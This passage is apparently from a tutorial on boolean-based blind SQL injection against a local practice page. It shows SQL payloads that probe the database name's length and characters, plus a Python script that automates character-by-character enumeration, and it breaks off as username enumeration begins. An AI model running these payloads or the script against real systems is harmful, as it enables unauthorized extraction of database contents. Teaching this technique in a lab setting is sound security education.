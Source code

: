 ```sql
SELECT * FROM users WHERE id = 1 AND LENGTH(current_database())=1;
```

If we get the number correct then the application will return a `User exists` like so, 

![exists](https://i.ibb.co/PLWjbt9/image.png)

We could go ahead as well and find the name of the database as a way of enumeration. 

![database_name](https://i.ibb.co/23YBrnG3/image.png)

```sql
SELECT * FROM users WHERE id = 1 AND SUBSTRING(current_database(), 1,1) = 'a'
```

This queries the first character of the database name, and this checks if the first character is `a` if yes, then it should return `User exists` and this would hint to us that the first character of the database name is `a`. 

Now we could create an automation script with python that will help us make this enumeration faster

```python
import requests

url = "http://localhost:8080/blind.php"
chars = "qwertyuiopasdfghjklzxcvbnm"

db_name = " "

for position in range(1, 5):
    for char in chars:
        payload = f"1 AND SUBSTRING(current_database(), {position},1) = '{char}'"
        response = requests.get(url, params={"id": payload})

        if "User exists" in response.text:
            db_name += char

            print(f"Found Character {position}: {char}")
            break

    print(f"Database name: {db_name}")
```

Let us run the script 

![script](https://i.ibb.co/JjDWXHGX/image.png)

The script goes through all the characters provided and prints each character that returned a `User exists`. The logs would look like so 

![log](https://i.ibb.co/Z6F1ynG9/image.png)

We can also enumerate for usernames using an automated script in python as well where all the query is: 
